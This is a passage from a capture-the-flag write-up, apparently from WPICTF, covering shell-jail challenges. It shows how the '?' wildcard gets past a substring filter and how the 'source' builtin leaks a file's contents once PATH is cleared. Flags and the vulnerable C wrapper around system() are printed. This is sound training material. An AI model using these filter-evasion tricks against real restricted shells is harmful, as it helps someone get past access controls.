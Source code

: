 The executable runs whatever arguments we give it as the `pc_owner` user. However, many substrings are forbidden, including `flag`, so we can't just `cat flag.txt`. `*`, the basic wildcard in shell globbing is forbidden also. Luckily, there is another wildcard: [the `?` wildcard](http://www.tldp.org/LDP/abs/html/special-chars.html#WILDCARDQU), which stands for any single character. So:

    $ ./access "cat fl?g.t?t"
    wpi{MaNY_WayS_T0_r3Ad}

---

## pwn / 250 Shell-JAIL-2 ##

**Files provided**

> login (SSH key, not disclosed)

**Description**

> Download the login private key, then run:
> 
> ssh -p 31337 -i login shjail@shelljail2.wpictf.xyz
> 
> redundant servers on 31338 and 31339
> 
> made by Ben Chaney

**Solution**

Same set up as the previous challenge, with one significant difference in `main`:

    int main(int argc, const char **argv){
      setreuid(UID, UID);
      char *cmd = gen_cmd(argc, argv);
      if (!filter(cmd)){
        exit(-1);
      }
      setenv("PATH", "", 1); 
      system(cmd);
    }

The `PATH` environment variable is cleared, so `cat` will not work anymore. We will have to use one of the [shell builtins](https://www.gnu.org/software/bash/manual/html_node/Bourne-Shell-Builtins.html). Here is a simple method:

    $ ./access "source fl?g.t?t"
    sh: flag.txt: line 1: wpi{p0s1x_sh3Lls_ar3_w13rD}: not found

This attempts to parse `flag.txt` as a shell script, which naturally fails. Luckily, the error message prints out the flag for us.

---

## Web / 150 Dance ##

**No files provided**
